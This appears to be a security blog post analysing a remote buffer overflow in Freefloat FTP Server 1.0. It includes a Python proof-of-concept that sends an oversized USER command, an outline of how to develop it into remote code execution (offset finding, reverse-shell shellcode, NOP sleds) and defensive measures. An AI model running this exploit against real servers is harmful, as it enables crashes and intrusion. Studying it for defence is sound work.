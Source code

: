 ```yaml
---
title: "[remote] Freefloat FTP Server 1.0 - Remote Buffer Overflow"
date: 2025-06-22
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security, Freefloat, FTP Server]
layout: post
image:
  path: ./assets/images/post-cover/Freefloat FTP Server 1.0-exploit.png
---
```


## Summary

Freefloat FTP Server 1.0 - Remote Buffer Overflow

## Technical Analysis

# Freefloat FTP Server 1.0 - Remote Buffer Overflow Vulnerability Analysis

## Technical Executive Summary

The Freefloat FTP Server 1.0 has been identified to contain a critical remote buffer overflow vulnerability. This flaw arises from improper handling of input data, allowing attackers to execute arbitrary code on the affected system. The vulnerability is exploitable remotely, making it a significant threat to systems running this version of the server software. Exploitation of this vulnerability could lead to a complete compromise of the targeted system, enabling unauthorized access, data exfiltration, or further network penetration.

## Proof of Concept (PoC)

Below is a Python script demonstrating a basic proof-of-concept exploit for the Freefloat FTP Server 1.0 remote buffer overflow vulnerability. This script sends a crafted payload to the FTP server to trigger the overflow condition.

```python
import socket

# Target configuration
target_ip = "192.168.1.100"
target_port = 21

# Crafting the payload
buffer = b"A" * 1000  # Adjust the size based on the overflow point
payload = b"USER " + buffer + b"\r\n"

# Establishing connection and sending payload
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.recv(1024)  # Receive the banner
    s.send(payload)
    print("[+] Payload sent successfully.")
except Exception as e:
    print(f"[-] Could not connect to the target: {e}")
finally:
    s.close()
```

**Note:** The buffer size and payload need to be adjusted based on the exact overflow point and the shellcode to be used for exploitation. This PoC is for educational purposes only.

## Offensive Security Insights

### Exploitation Techniques

1. **Buffer Overflow Fundamentals:**
   - The vulnerability stems from the lack of bounds checking on user inputs, leading to a buffer overflow. Attackers exploit this by overwriting the stack with a payload that includes a return address pointing to malicious code.

2. **Crafting the Exploit:**
   - Identify the exact point of overflow using tools like Metasploit's pattern_create and pattern_offset.
   - Inject shellcode into the payload that performs the desired actions (e.g., opening a reverse shell).
   - Use techniques such as NOP sleds to increase the reliability of the exploit.

3. **Remote Code Execution:**
   - Once the buffer is overflowed, control is transferred to the attacker's shellcode, allowing remote code execution.
   - This can be leveraged to escalate privileges, maintain persistence, or pivot to other systems within the network.

### Defensive Measures

1. **Patch Management:**
   - Ensure that all systems are running the latest version of Freefloat FTP Server or alternative software with known vulnerabilities patched.

2. **Input Validation:**
   - Implement robust input validation and sanitization to prevent buffer overflow conditions.
   - Utilize secure coding practices to ensure input data is properly handled.

3. **Network Security:**
   - Deploy intrusion detection and prevention systems (IDPS) to monitor and block suspicious traffic patterns associated with buffer overflow exploits.
   - Restrict access to the FTP server using firewall rules and VPNs to limit exposure to potential attackers.

4. **Security Hardening:**
   - Enable stack canaries, ASLR (Address Space Layout Randomization), and DEP (Data Execution Prevention) to mitigate the risk of successful buffer overflow attacks.
   - Regularly conduct security audits and penetration testing to identify and remediate vulnerabilities.

By understanding and addressing the technical details of this vulnerability, security professionals can better protect their systems against exploitation attempts.

📎 [Original Source](https://www.exploit-db.com/exploits/52323)

---

_This article was written by sleep33._
